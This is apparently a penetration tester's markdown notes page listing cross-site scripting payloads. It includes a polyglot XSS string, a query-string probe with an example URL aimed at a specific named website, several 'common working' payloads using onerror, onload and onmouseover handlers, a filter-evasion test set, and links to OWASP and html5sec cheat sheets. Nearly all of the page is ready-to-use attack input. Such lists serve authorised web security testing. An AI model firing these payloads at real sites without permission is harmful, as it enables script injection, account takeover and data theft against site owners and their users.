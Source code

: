 # Payloads

An all in 1 XSS command

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Add this to a random url folder

```
/?ITG='"-->alert("ITG XSS")
e.g https://thymometrics.com/Styles/?nsextt=%27%22--%3E%3C/style%3E%3C/scRipt%3E%3CscRipt%3Ealert(%22ITG%20XSS%22)%3C/scRipt%3E
```

### Common working XSS payloads



```
onmouseover="prompt(1)">
<img src=x onerror=prompt(1);>
" onmouseover=prompt(971370) bad="
%3Cscript%3Ealert%2822%29%3C%2Fscript%3E&message=%3Cscript%3Ealert%2822%29%3C%2Fscript%3E
```

NETSPARKER - best tool other than burp

simple xss test for unsanatised html:

```
"><script>alert(/Xss/)</ScRIPT>
"><style><!-- </style> <img src=1 onerror=alert(xss)> 
"><svg/onload=alert(1)>  works on FF last version
```

### XSS cheat sheet&#x20;

{% embed url="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet" %}

&#x20;

### payloads that work on any browser

{% embed url="http://html5sec.org" %}
